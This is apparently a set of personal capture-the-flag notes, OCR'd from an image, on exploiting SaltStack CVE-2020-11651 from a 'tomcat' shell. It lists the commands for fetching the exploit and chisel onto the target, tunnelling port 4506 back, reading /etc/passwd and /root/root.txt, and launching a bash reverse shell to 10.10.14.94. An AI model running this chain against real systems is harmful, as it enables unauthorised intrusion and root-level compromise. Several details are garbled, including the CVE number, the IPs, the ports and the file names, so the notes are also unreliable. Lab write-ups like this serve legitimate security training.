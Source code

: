 ### user Tomcat


```bash
cd /home/tomcat
cat user.txt | cut -c1-20




netstat -tulpn
# port 3505, 3506
# opening tge firewall for salt
# saltstack exploit

```


### cve-2020-11651 PoC


```bash
# tab1:
git clone git
python exploit.py

pyserver


# tab2: Tomcat
curl http://10.10.10.10/exploit.pu -o exploit.py
python exploit.py
# module not found on the target system
# use reverse portforwarding on port 4506 to run the exploit locally
```

chisel linux:
- fast TCP tunnel over HTTP
- on client: `./chisel client 110.10.10.10:9999 R:4506:localhost:4506`
- on server: `chisel server -p 999 -reverse`

```bash
# tab 1:
curl https://o.jpillora.com/chisel! | bash
# install in /usr.local/bin/chsel

# tab2: Tomcat
curl http://10.10.10.10/chisel -o chisel
chmod +x chisel

./chisel client 110.10.10.10:9999 R:4506:localhost:4506


# tab3:
chisel server -p 999 -reverse


# tab 1:
cd CVE-20202-11651-poc
python3 exploit.py --help

python3 exploit.py --master 127.0.0.1 --read /etc/passwd
python3 exploit.py --master 127.0.0.1 --read /root/root.txt

python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.94/7878 0>&1"'


```